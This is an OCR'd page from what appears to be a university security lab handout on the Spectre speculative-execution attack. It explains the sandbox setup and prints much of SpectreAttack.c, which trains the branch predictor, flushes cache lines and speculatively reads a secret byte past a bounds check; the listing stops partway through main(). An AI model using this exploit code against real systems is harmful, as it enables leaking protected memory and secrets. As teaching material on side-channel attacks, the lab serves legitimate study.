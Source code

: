 There is a secret value in the restricted area (either above the buffer or below it), and the secret’s address
is known to the attacker, but the attacker cannot directly access the memory holding the secret value. The
only way to access the secret is through the above sandbox function. From the previous section, we have learned that although the true-branch will never be executed if `x` is larger than the buffer size, at microarchi-
tectural level, it can be executed and some traces can be left behind when the execution is reverted.

#### 5.2 The Program Used in the Experiment

The code for the basic Spectre attack is shown below. In this code, there is a secret defined in Line 1. Assume that we cannot directly access the `secret, bound_lower` , or `bound_upper` variables (we do assume that we can flush the two bound variables from the cache). Our goal is to print out the secret using the Spectre attack. The code below only steals the first byte of the secret. Students can extend it to print out
more bytes.

Listing 4:SpectreAttack.c

```
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char *secret = "Some Secret Value";      Line 1
uint8_t array[256*4096];

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
if (x <= bound_upper && x >= bound_lower) {
return buffer[x];
} else { return 0; }
}

void spectreAttack(size_t index_beyond)
{
int i;
uint8_t s;
volatile int z;

// Train the CPU to take the true branch inside restrictedAccess().
for (i = 0; i < 10; i++) {
restrictedAccess(i);
}

// Flush bound_upper, bound_lower, and array[] from the cache.
_mm_clflush(&bound_upper);
_mm_clflush(&bound_lower);
for (i = 0; i < 256; i++) { _mm_clflush(&array[i*4096 + DELTA]); }
for (z = 0; z < 100; z++) { }

s = restrictedAccess(index_beyond);    Line 2
array[s*4096 + DELTA] += 88;           Line 3
}

int main() {
flushSideChannel();

size_t index_beyond = (size_t)(secret - (char*)buffer);   Line 4
printf("secret: %p \n", secret);
```
